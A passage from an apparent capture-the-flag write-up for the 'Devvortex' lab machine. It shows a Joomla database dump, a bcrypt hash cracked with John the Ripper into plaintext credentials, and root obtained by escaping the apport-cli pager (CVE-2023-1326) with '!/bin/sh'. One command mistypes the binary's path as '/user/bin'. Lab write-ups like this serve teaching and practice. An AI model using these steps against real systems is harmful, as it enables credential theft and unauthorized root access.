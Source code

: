 ### Pivot to logan

- After dropping onto the box, I checked the joomla database
```bash
# password: P4ntherg0t1n5r3c0n##
mysql -h 127.0.0.1 -u lewis -p 
mysql> use joomla;
mysql> select * from sd4fg_users;

username | email | password | ...
logan | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 ...
```

Running JtR agains the dumped hash:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt logan_password.txt

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:03 DONE (2024-01-22 20:41) 0.3030g/s 436.3p/s 436.3c/s 436.3C/s lacoste..michel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Gets us access as logan with the credentials `logan:tequieromucho`

## Privilege Escalation

Running `sudo -l`
```bash
$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

`apport-cli` has a very gtfobin cve associated with it [here](https://diegojoelcondoriquispe.medium.com/cve-2023-1326-poc-c8f2a59d0e00). Whhen filing a bug with:
```bash
sudo /user/bin/apport-cli --file-bug
```
`apport-cli` will use `less` as the pager. `less` has a known privilege escalation vector where, after dropping into the pager environment an attacker can type `!/bin/sh` which breaks out of the pager and spawns a /bin/sh shell. This gets you root.